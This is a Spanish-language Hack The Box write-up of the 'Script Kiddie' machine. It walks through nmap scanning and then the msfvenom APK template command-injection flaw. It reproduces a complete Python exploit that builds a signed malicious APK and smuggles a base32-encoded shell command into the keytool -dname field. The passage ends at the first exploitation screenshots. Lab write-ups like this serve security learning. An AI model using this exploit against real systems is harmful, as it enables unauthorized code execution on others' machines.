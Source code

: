 ```yaml
---
title: "Script Kiddie - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/Scriptkiddie.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  -
  -
  -
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/scriptkiddie.png">
</p>

La máquina **Script Kiddie** es una máquina virtual vulnerable de la plataforma **HackTheBox** con un nivel de dificultad **facil** una calificación en el rank de 4.1, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.226** y un sistema operativo **Linux**.


# Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.226]** utilizando los parámetros:
 - **-p-:**    Escaneo a toda la gama de puertos (65536).
 - **-n:**     No hacen la resolución del DNS.
 - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
 - **-v:**     Aumenta el nivel de los mensajes verbose.
 - **--open:** Muestra sólo los puertos con un estatus abierto.
 - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/scanPort.png?raw=true">
</p>

Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5000**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/Ports.png?raw=true">
</p>

Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

 - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
 - -sV: Detección de versiones en servicios alojados en puertos.
 - -p : Puertos a inspeccionar.
 - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/PortServ.png?raw=true">
</p>

Gracias a lo que nos mostró el escaneo de servicios y versiones se puede ver que en el puerto **5000** se encuentra un servicio **http** y en el puerto **22** un servicio **ssh**, sabiendo esto y yendo a un navegador e ingresando al servicio **http** por el puerto **5000** se puede ver la siguiente web.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/web2.png?raw=true">
</p>

Es una web que cuenta con diferentes herramientas de pentesting como **nmap**, **msfvenom** y **searchsploit**.
Algo que podemos notar es que en la herramienta implementada de **msfvenom** se pueden subir **template**, investigando se puede llegar a un articulo el cual explica una vulnerabilidad existente en una version [desactualizada del framework de metasploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

En ella se habla de como hacerlo con la herramienta de **metasploit** pero no es necesario ya que podemos hacer uso del siguiente código en python que saque de el [github de justinsteven ](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).
```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```
En este codigo solo tenemos que cambiar el payload del apk maliciosos que generaremos, en este caso yo me enviare 5 paquetes icmp y los para verificar si tengo ejecucion de comando examinare los paquetes con **tcpdum**

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp1.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp2.png?raw=true">
</p>
